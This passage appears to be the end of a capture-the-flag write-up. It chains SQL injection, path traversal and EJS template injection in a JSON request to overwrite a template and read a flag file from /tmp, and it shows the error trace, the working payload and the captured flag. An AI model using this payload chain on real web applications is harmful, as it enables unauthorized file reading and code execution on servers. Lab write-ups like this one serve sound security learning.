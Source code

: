 We get a new error that "print is not defined at eval".

```javascript
:10 ; var fs = globalThis && globalThis.process && globalThis.process.mainModule && globalThis.process.mainModule.require && globalThis.process.mainModule.require('fs'); var f = fs.readdirSync('/tmp').find(function(x){ return x.indexOf('flag_')===0 }); if(f){ print(fs.readFileSync('/tmp/'+f,'utf8')) } ^ ReferenceError: ejs:1 >> 1| <% var fs = globalThis && globalThis.process && globalThis.process.mainModule && globalThis.process.mainModule.require && globalThis.process.mainModule.require('fs'); var f = fs.readdirSync('/tmp').find(function(x){ return x.indexOf('flag_')===0 }); if(f){ print(fs.readFileSync('/tmp/'+f,'utf8')) } %> print is not defined at eval (eval at compile (/app/node_modules/ejs/lib/ejs.js:673:12), :10:262) at anonymous (/app/node_modules/ejs/lib/ejs.js:703:17) at exports.render (/app/node_modules/ejs/lib/ejs.js:425:37) at main (eval at (/app/runner.cjs:38:13), :74:19) { path: '' } Node.js v20.19.5
```

Let's adjust the payload to try a chain of ways to get a `fs` handle.

```json
{
    "username": ":updatedat",
    "updatedat": "'' ) OR rowid=2 -- ",
    "attachment": "..=%5c..=%5c..=%5c..=%5c..=%5c..=%5c..=%5c/tmp/view/index.ejs",
    "content": "<% var fs=null; try{ if(typeof module!=='undefined' && module.require) fs=module.require('fs'); else if(typeof process!=='undefined' && process.mainModule && process.mainModule.require) fs=process.mainModule.require('fs'); else if(typeof require!=='undefined') fs=require('fs'); else fs=(Function('return require')())('fs'); }catch(e){ fs=null; } var f = fs && fs.readdirSync('/tmp').find(function(x){return x.indexOf('flag_')===0}); %><%= f ? fs.readFileSync('/tmp/'+f,'utf8') : '' %>"
}
```

It works! 😎

![](./images/3.PNG)

Flag: `FLAG{Bug_C4ins_Br1ng5_Th3_B3st_Imp4ct}`
